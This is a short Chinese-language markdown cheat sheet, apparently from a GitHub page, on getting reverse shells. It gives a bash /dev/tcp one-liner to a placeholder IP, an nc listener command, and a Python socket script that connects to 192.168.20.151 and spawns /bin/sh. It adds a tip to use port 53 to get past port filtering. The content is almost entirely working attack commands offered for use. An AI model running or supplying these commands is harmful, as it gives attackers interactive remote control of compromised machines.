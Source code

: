 # 反弹shell
### bash反弹
```
bash -i >& /dev/tcp/x.x.x.x/8888 0>&1
```
- 本地使用nc进行监听

```
nc -lvp 8888
```

### python反弹
```
#!/usr/bin/python
#-*- coding: utf-8 -*-
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.20.151",7777)) #更改localhost为自己的外网ip,端口任意
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```
个人觉得python反弹比较好用，有时bash反弹不是很好用

## 注意：有时候任意端口是不可取得，小技巧，我们监听一个其他服务端口，一般监听53端口，然后通过53端口进行反弹，测试可以成功。

详细参考链接：https://blog.csdn.net/weixin_44288604/article/details/111740527
